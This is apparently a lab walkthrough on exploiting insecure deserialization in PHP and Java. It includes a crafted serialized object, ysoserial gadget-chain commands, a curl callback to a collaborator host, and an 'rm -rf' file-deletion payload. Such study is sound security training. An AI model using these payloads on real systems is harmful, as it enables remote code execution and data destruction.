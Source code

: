 ```php
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
- There is a lot to unpack lets go through the following
	1. There is a class created called "CustomTemplate" - We need to create our serialised object as this class (i.e. `O:14:"CustomTemplate"`)
		1. CustomTemplate has two private properties (`template_file_path` & `lock_file_path`)
	2. There are a 4 functions we can ignore because they are not important to us
	3. The last function `__destruct()` is important because it will run automatically at the end of this script AND it includes `unlink()` which will delete a file. The logic works based on that it will delete if the file specified in `lock_file_path` exists
6. Now we understand what to do. Craft a malicious serialised object
```
<@base64>O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}</@base64>
```
- We've done the following:
	- Changed the object to be `CustomTemplate`
	- Given it one attribute `lock_file_path`
	- Given the value to be Carlos' `morale.txt` file
# Exploiting Java deserialisation with Apache Commons
- Delete `morale.txt` from Carlos' home directory
1. Authenticate
2. Session cookie is serialised Java date (we can tell because of the tell tale sign `rO0`) in the start of the data
```
Set-Cookie: session=rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBzdGhneHV2a2s2dGJyc3JjYmoyNmt6bWl6OXU3YmRkYXQABndpZW5lcg%3d%3d; Secure; HttpOnly; SameSite=None
```
3. Knowing it is using Java serialisation, test a probe payload using the `URLDNS` payload
```sh
java -jar ysoserial-all.jar URLDNS "https://collaborator.com" | base64
```
4. Copy the payload and submit it via the cookie in Repeater
	1. You will receive `500 Internal Server Error` but that is completely ok
	2. Use Hackvertor to URL encode the payload easily
5. We get a hit in collaborator confirming we have an insecure deserialisation process
6. Go through the different payloads using the `CommonsCollectionsX` until you get a hit on collaborator
	1. Eventually we get a hit using `CommonsCollections2`
```sh
java -jar ysoserial-all.jar CommonsCollections2 "curl https://collaborator/common2" | base64
```
7. After confirming it is `CommonsCollections2`, change the payload to delete the Carlos' `morale.txt` file
```sh
java -jar ysoserial-all.jar CommonsCollections2 "rm -rf /home/carlos/morale.txt" | base64
```
# Exploiting PHP deserialization with a pre-built gadget chain
- Delete `morale.txt`
1. Authenticate
2. Identify serialised object in the cookie
```
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzZzdzYjAyYmhzNGR5MGpwZGEwNjMyaGhneHV5YzBlYSI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22940d6bdc284525e83036031488c1477ebf1f0606%22%7D
```